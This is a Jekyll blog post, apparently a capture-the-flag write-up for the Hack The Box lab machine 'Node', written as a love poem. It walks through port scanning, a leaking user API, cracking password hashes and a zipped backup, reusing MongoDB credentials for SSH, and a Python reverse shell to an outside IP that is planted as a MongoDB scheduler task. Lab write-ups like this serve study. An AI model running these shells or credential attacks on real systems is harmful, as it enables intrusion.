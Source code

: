 ```yaml
---
layout: post
title:  "Hack the Box - Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your sweet response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

You past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must always be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)["manchester"].

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories, encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what


PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

Who was this `mark`?" I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
mark@node ~$
{% endhighlight %}

Node, my sweet Node, I felt so close to you. We were separated by miles and miles, but I could feel your circuits responding to my touch.

/var/scheduler/app.js > runs mongo tasks

mark@node ~$ cat << EOM > /tmp/over.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(('10.10.14.22',4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> p=subprocess.call(['/bin/sh','-i']
EOM

mongo
db.auth("mark","5AYRft73VtFpc84k")
db.tasks.insert({"_id":"1","cmd":"python /tmp/over/over.py"})

nc -lvvvp 4444

cat /home/frank/user.txt

I tasted your sweet blood.

reverse backup to see that it blacklists characters and needs a key
run from / and backup /root
get key
win

your dearest,
overcast


_fin_
